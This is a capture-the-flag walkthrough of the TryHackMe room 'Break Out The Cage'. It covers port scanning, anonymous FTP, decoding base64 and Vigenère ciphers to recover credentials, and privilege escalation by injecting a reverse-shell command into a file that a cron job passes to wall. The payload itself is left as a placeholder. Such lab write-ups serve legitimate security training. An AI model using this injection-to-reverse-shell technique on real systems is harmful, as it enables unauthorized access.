 ![Banner](Images/banner.png)

# Break Out The Cage
**Room by:** [Magna](https://tryhackme.com/p/Magna)
<br />**Difficulty:** Easy
<br />**URL:** https://tryhackme.com/room/breakoutthecage1

A fun box, something for everyone. Got caught up trying to escape the Wall command, but after that root is simple. 

# ~ Enumeration:

### **Nmap:**
```

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.9.28
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 15 21:41:24 2020 -- 1 IP address (1 host up) scanned in 8.36 seconds

```
### Web-server 
![web-server](Images/html.png)
Not a lot happening here..

### Gobuster:
```
===============================================================
2020/06/16 23:30:28 Starting gobuster
===============================================================
/images (Status: 301)
/html (Status: 301)
/scripts (Status: 301)
/contracts (Status: 301)
/auditions (Status: 301)
/server-status (Status: 403)
===============================================================
2020/06/16 23:38:25 Finished
===============================================================
```
- /scripts ; contains a bunch of random ~film~ scripts.
- /auditions/must_practice_corrupt_file.mp3 ; Nick Cage audio clip with weird noise...
- /contracts : contains empty file 

### FTP:

```
220 (vsFTPd 3.0.3)
Name (10.10.154.188:userone): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
226 Directory send OK.
ftp> get dad_tasks

```
# ~ Foothold:
Download `/auditions/must_practice_corrupt_file.mp3`
<br />Load the MP3 into Audacity and check the spectrogram at the  point the strange noise starts, it reveals a string/pass phrase :  
![Spectrogram](Images/spectogram.png)
`Not Weston's password tho.. `

Now lets look at the file we 'yanked' from FTP: `cat dad_tasks`:
```
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds%
```

Decoded base64 returns:
```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... <REDACTED>
```
The decoded base64 string looks like ROT13 or a ceaser cypher?
<br /> Hmm.. Nope!
<br />Ahh there was a challenge in 'RACTF' a few weeks ago that used a Vigenère cypher..
>The Vigenère cipher is a method of encrypting alphabetic text by using a series of interwoven Caesar ciphers, based on the letters of a keyword. It employs a form of polyalphabetic substitution.

Vigenère requires a key or pass phrase to decode the text. Let's use the text we found in the MP3 file earlier.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. <SNIP>
Two. <SNIP
Three. <SNIP>
Four. <SNIP>
Five. <SNIP>

In case I forget.... <ANSWER TO TASK 1 FOUND HERE>

```

<br />Now we have Weston's password lets ssh into the box: `ssh weston@cage.thm`

# ~ PrivEsc to Cage:
Let's perform some basic enumeration and see what we find..
<br />`id` ; note group (cage)
```
uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)

```
`sudo -l`
```
User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```
`cat /usr/bin/bees`
```
#!/bin/bash

wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```
`find / -perm -4000 2>/dev/null`
> Nothing interesting here..

Hmm keep getting 'walled' with random Nicholas Cage quotes.. So I uploaded `pspy64` to the box, `chmod +x ; ./pspy64`:
![pspy](Images/pspy.png)
We can see that the file `spread_the_quotes.py` is being run as user:cage.
<br />Alternatively, `find / -type d -group cage 2>/dev/null/` will return the same results:

```

/opt/.dads_scripts
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes

```

If we `cat spread_the_quotes.py` we can see its calling 'wall' + input from .quotes. This is our attack route.
Modify `.quotes` to send us a python reverse shell:

```bash
1. rm .quotes ; vim .quotes
2. Frees3c was here ; <REV SHELL HERE>
3. :wq

```
Save and wait for the cronjob to run the script :
![Rev_success](Images/cage_rev_shell.png)

# ~ Root;
`ls -la`

```bash

drwxrwxr-x 2 cage cage 4096 May 25 13:00 email_backup
-rw-rw-r-- 1 cage cage  230 May 26 08:01 Super_Duper_Checklist

```
`cat Super_Duper_Checklist`

```

<Blah>
<Blah>
5 - Figure out why Weston has this etched into his desk: THM{ANSWER NO.2 FOUND HERE}

```

`email_backup/`

- email_1 : note "face" repeated several times.
- email_2 : Sean's user name is root? 
- email_3 : note "face" is mentioned several more times, and another _jumbled_ up word.


<br />Decode the Vigenere cypher using 'FACE' ass the Key to reveal a password. Then `su` to root!!
<br />Enumerate the email_backup directory in /root to find  the root flag:

```
Dear Sean

<REDACTED TEXT>
<REDACTED TEXT>

THM{ROOT FLAG HERE}

Thank you

Sean Archer

```

<br />
<br /> _**Thanks for reading.**_


### Resources:
<br />https://www.boxentriq.com/code-breaking/vigenere-cipher
<br />https://github.com/DominicBreuker/pspy

